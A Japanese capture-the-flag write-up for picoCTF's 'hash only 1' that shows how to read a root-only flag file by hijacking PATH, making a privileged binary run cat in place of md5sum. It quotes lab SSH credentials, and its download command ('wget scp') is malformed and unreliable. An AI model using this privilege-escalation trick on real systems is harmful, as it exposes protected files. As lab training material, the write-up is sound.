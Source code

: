 ## hash only 1
### 問題文

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Connect using `ssh ctf-player@shape-facility.picoctf.net -p 64209` with the password, `a15d25e1` and run the binary named `flaghasher`.
You can get a copy of the binary if you wish: `scp -P 64209 ctf-player@shape-facility.picoctf.net:~/flaghasher .`

---

まずは、インスタンスを起動する。  
次に、シェル上で`ssh ctf-player@shape-facility.picoctf.net -p 64209`を実行して、サーバーにアクセス  

サーバーにアクセスすると、パスワードの入力を求められるので、問題文のパスワードを入力する。  
サーバーにアクセスできたので、早速バイナリファイルを実行する。

```
$ ./flaghasher
```

![](./image.png)

どうやらmd5アルゴリズムを使用してハッシュ化しているようだ。  
サーバー上には、gdbなどが入っていなかったので、ファイルをローカルに落として、Ghidraでリバースエンジニアリングする。  

```
$ wget scp -P 64209 ctf-player@shape-facility.picoctf.net:~/flaghasher .
```

で、Ghidraにファイルを読み込ませる。  
こちらのサイトで、Ghidraを用いたデコンパイルが行えます。  
https://dogbolt.org/  


すると怪しい一文があった。  
md5sumは、UNIX/Linux環境でファイルやデータのMD5ハッシュ値を計算するためのものなので、ここがハッシュ化をしている場所だ。
```
  std::string::string(local_48,"/bin/bash -c \'md5sum /root/flag.txt\'",&local_4d);
```

lnコマンドを使用して、md5sumの呼び出しをcatに変えることができれば、Flagをゲットできそう。

```
ln -s /usr/bin/cat md5sum
export PATH=".:$PATH"
```

書き換え完了

実行をして
```
./flaghasher 
```

Flagがゲットできた。